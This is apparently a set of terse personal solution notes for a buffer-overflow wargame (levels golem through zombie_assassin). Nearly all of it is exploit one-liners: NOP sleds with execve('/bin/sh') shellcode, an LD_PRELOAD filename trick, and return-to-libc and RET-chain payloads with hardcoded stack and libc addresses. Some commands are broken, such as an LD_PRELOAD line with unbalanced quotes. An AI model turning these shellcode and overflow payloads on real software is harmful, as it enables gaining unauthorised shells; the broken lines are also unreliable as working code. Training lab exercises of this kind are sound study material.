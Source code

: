 11. golem : cup of coffee
use shared library(PRELOAD)
PL: 	$ cat int shrlibattack(){return 0;} > shrlib.c
	$ gcc -fPIC -shared shrlib.c -o `python -c 'print "\x90" *100 +"\x31\xc0\x50\xb8\x2e\x2e\x73\x68\x66\x05\x01\x01\x50\xb8\x2e\x62\x69\x6e\x04\x01\x50\x89\xe3\x31\xc0\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80"'`
	$ export LD_PRELOAD=`python -c 'print "/home/skeleton/ "\x90" *100 +"\x31\xc0\x50\xb8\x2e\x2e\x73\x68\x66\x05\x01\x01\x50\xb8\x2e\x62\x69\x6e\x04\x01\x50\x89\xe3\x31\xc0\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80"'`
	$ ./golem `python -c 'print "A"* 44 + "\xfc\xf5\xff\xbf"'`

12. darkknight : new attacker
use ebp, stack
PL:	$ ./darkknight `python -c 'print "\x90" * 15 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80" + "\xe0"'`

13. bugbear : new divide
	-> figure out by testing i guess(try system on your own)..
PL:	$ ./bugbear `python -c 'print "A"* 44 +"\xe0\x8a\x05\x40" + "\xf9\xbf\x0f\x40"*2'` 

system 위치
use dbg to find system address and then find "/bin/sh\x00" location and locate it 
/bin/sh : 0x400fbff9
use find.c (memcmp)



./giant "`python -c 'print "A"*44 + "\x48\x9d\x0a\x40" +"\xae\x8a\x05\x40"*2 + "\xf9\xbf\x0f\x40"'`"

	
14. giant : one step closer
PL:	$ ./giant "`python -c 'print "A"*44 + "\x48\x9d\x0a\x40" +"\xe0\x8a\x05\x40" + "\xf9\xbf\x0f\x40"*4'`"

- must use execve
- must find /bin/sh
use RTL Chain
EXECVE			\x48\x9d\x0a\x40
SYSTEM			\xe0\x8a\x05\x40
RET			\xf9\xbf\x0f\x40	
ARG1(/bin/bash\x00)	\xf9\xbf\x0f\x40	400fbff9
			\xf9\xbf\x0f\x40

15. assassin : pushing me away
USE RET chain

A*44
ret in head 	0x804851e		\x36\x83\x04\x08
system address	0x40058ae0		\xe0\x8a\x05\x40			
trash value				\xf9\xbf\x0f\x40
/bin/bash	0x400fbff9		\xf9\xbf\x0f\x40

./assassin `python -c 'print "A"* 44 + "\x36\x83\x04\x08"+"\xe0\x8a\x05\x40" +"\xf9\xbf\x0f\x40"*2'`

16. zombie_assassin : no place to hide
PL : $ ./zombie_assassin `python -c 'print "\xa0\xfa\xff\xbf" + "\xac\xfa\xff\xbf"+"\x90" * 7+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80"+"\xa0\xfa\xff\xbf"+"\x17\x85\x04\x08"'`
